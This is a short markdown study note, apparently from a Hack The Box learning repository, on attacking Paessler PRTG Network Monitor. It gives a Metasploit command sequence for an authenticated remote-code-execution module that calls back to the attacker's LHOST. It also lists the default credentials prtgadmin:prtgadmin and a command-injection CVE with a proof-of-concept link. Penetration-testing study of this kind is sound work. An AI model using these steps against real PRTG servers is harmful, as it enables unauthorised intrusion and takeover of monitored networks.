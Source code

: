 # PRTG Network Monitor

[![attacking_common_applications](../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![netmon](../../../../cybersecurity/_badges/htb-p/netmon.svg)](https://app.hackthebox.com/machines/Netmon)

<div class="row row-cols-lg-2"><div>

[Paessler PRTG](https://en.wikipedia.org/wiki/Paessler_PRTG)  is an network monitoring software. On Windows, there are two folders, one for the program, another for the data:

```makefile!
C:\Program Files (x86)\PRTG Network Monitor
C:\ProgramData\Paessler\PRTG Network Monitor
```

If we have admin access, we can exploit a RCE.
</div><div>

For instance, with [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md):

```shell!
$ msfconsole -q
msf6> use windows/http/prtg_authenticated_rce
msf6> set RHOSTS <ip>
msf6> set LHOST tun0
msf6> run # try default password
msf6> set ADMIN_PASSWORD <password>
msf6> run
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Default credentials (`prtgadmin:prtgadmin`)
* Nmap (`Indy httpd <version>`)
* [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) (`<18.2.39`): command injection ([poc](https://github.com/wildkindcc/CVE-2018-9276/tree/master))
</div><div>
</div></div>